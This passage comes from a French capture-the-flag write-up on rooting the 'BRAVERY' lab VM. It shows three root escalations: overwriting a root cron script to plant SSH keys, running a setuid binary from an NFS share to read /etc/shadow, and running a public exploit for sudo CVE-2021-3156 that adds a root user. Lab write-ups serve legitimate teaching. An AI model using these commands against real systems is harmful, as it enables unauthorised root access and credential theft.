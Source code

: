 On va écraser le script existant avec des commandes à nous :  

```plain
[david@bravery tmp]$ cp my_script.sh /var/www/maintenance.sh
[david@bravery tmp]$ cat /var/www/maintenance.sh
#!/bin/sh
mkdir -p /root/.ssh
cp /home/david/.ssh/authorized_keys /root/.ssh/
```

Si on merdouille on pourrait débuger tout ça en copiant et lisant les mails de l'utilisateur (*/var/spool/mail/root*).  

5 minutes plus tard ma commande est passée :  

```plain
$ ssh root@192.168.101.129
Enter passphrase for key '/home/devloop/.ssh/id_rsa': 
[root@bravery ~]# id
uid=0(root) gid=0(root) groupes=0(root) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@bravery ~]# cat proof.txt 
Congratulations on rooting BRAVERY. :)
```

Qui peut le moins peut le plus
------------------------------

Evidemment on aurait pu mettre directement un binaire setuid root sur le partage NFS et shunter David :  

```plain
[david@bravery nfsshare]$ ./setuid_root 
ABRT has detected 1 problem(s). For more info run: abrt-cli list --since 1530713425
[root@bravery nfsshare]# head -1 /etc/shadow
root:$6$8uypxcySPhhZ/p1p$1Sj6Bbm/tTNOqdmjVWJh9KXH/osqfXi4WQfVkoSEgL5OSKGo7cxdbQRQo.yzibIddtabSHYvDs1IbITaGTd/o.::0:99999:7:::
```

Alternative happy ending
------------------------

La VM est vulnérable à la faille [Sudo Baron Samedit](https://github.com/worawit/CVE-2021-3156) mais l'exploit à utiliser est différent, celui-ci ajoute un utilisateur *gg* (avec le même mot de passe) :  

```plain
[david@bravery CVE-2021-3156-main]$ python exploit_userspec.py
--- snip tons of output ---
offset to first userspec: 0x740

cmnd size: 0xed0
offset to defaults: 0x20
offset to first userspec: 0x740
offset to userspec: 0x0

to skip finding offsets next time no this machine, run: 
exploit_userspec.py 0xed0 0x20 0x740 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 1513
[david@bravery CVE-2021-3156-main]$ su gg
Password: 
[root@bravery CVE-2021-3156-main]# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
```


*Published December 14 2021 at 13:49*
